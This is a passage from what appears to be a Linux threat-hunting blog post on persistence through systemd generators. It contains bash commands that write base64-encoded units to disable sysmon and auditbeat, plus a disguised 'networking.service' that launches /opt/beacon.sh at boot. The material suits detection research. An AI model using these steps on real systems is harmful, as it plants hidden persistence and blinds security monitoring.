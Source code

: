 ```bash
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPSJTa2lwcGVkIgoKW1NlcnZpY2VdCkV4ZWNTdGFydD1lY2hvICJTa2lwcGVkIgoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0' | base64 -d > /run/systemd/generator.early/sysmon.service
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPSJTa2lwcGVkIgoKW1NlcnZpY2VdCkV4ZWNTdGFydD1lY2hvICJTa2lwcGVkIgoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0' | base64 -d > /run/systemd/generator.early/auditbeat.service
EOF

chmod +x /lib/systemd/system-generators/systemd-network-generator
```

You might wonder: _"Why do we need to make a service unit file? Why don't we run the `/opt/beacon.sh` in the background directly?"_ 

Well, this is the recommended way that systemd generators operate. For example, network functionality might not be ready when the generators are executed. So it is simpler to have generate service file instead and set `network.target` as a dependency. However, it is possible to create a long running background process on boot; it either waits or retries until the necessary OS functionality becomes available. 

The generated service file is very simple. If you want more info about this read the [previous blogpost - 5.2.2 Minimal service file
](https://pberba.github.io/security/2022/01/30/linux-threat-hunting-for-persistence-systemd-timers-cron/#52-installing-a-malicious-service)

```
[Unit]
Description=networking.service

[Service]
ExecStart=/opt/beacon.sh

[Install]
WantedBy=multi-user.target
```

On the next reboot a `networking.service` service would be running

```bash
$ systemctl status networking
● networking.service
   Loaded: loaded (/run/systemd/system/networking.service; enabled; vendor preset: enabled)
   Active: active (running) since Wed 2022-02-02 06:42:47 UTC; 19s ago
 Main PID: 374 (beacon.sh)
    Tasks: 2 (limit: 4651)
   Memory: 15.7M
   CGroup: /system.slice/networking.service
           ├─374 /bin/bash /opt/beacon.sh
           └─377 bash -l
``` 

Of course you can modify the value of `ExecStart` or the contents of `/opt/beacon.sh` to whatever script you want.

Also because we have written new `sysmon.service` and `auditbeat.service` in `/run/systemd/generator.early/` and this takes precendence over `/etc/systemd/system` and `/lib/systemd/system` (See order in `systemd-analyze unit-paths`). The `sysmon` and `auditbeat` did not run the correct daemons.
